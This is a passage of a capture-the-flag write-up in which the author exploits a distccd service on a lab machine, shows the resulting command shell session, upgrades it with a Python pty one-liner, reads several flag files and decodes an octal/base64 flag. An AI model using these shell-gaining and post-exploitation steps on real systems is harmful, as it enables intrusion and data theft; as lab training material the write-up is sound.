 ```
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "r7cApZJB5IKNddg4\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.103:4444 -> 192.168.56.102:48280) at 2020-04-28 19:44:23 -0400

id
uid=112(distccd) gid=65534(nogroup) groups=65534(nogroup)
uname -a
Linux debian-9 4.9.0-3-amd64 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) x86_64 GNU/Linux
```

I popped into an interactive shell with pty and found the next two flags in the distccd users' directory:
```
python -c 'import pty; pty.spawn("/bin/bash")'
distccd@debian-9:~$ ls
ls
aut.webm  quaerat.ods
distccd@debian-9:~$ cat aut.webm
cat aut.webm
flag{a3407994}
distccd@debian-9:~$ cat quaerat.ods
cat quaerat.ods
132155170150132063163062115124115062116172143170132110060075
```

The quaerat.ods file was octal encoded, base64'd ascii. Side ntoe, if you don't know any regex, you should really learn some. It's one of those things that takes a little bit of getting the hang of, and in the beginning seems like you're writing heiroglyphics, but once you're proficient with it, it just makes your life so much easier. All the time, seriously. The reason I mention anything is because octal is expected to be in groups of three, and some tools don't account for when it's not. Instead of hand counting one two three- space, one two three, etc, a regex can grab each set of three chars with ([0-9]{3}), then just replace with the match and a space.

Anyway, after base64 decoding, it's `flag{6136771d}`

A directory up and a few down, another flag: 
```
distccd@debian-9:~$ cat ../challenges/elusive/.hush_hush
flag{bu4E4xhzft8lGt5sD8T9VQ}
```
If you didn't know, a '.' character in the front of a filename on a linux system acts to 'hide' the file. A normal ls won't see it, give it the -a switch.

As a side note, it's also possible to RCE gitlist again to obtain another shell. Some might have done that first, which will get you the .hush_hush flag earlier, you'll need to exploit distccd anyway to get it's flags.

The last flag is also in another home directory, for the user 'git':
```
distccd@debian-9:~$ cat /home/git/hush_hush
flag{aposematicallyaptitudeTiltonsvilleBullvilleurus}
```

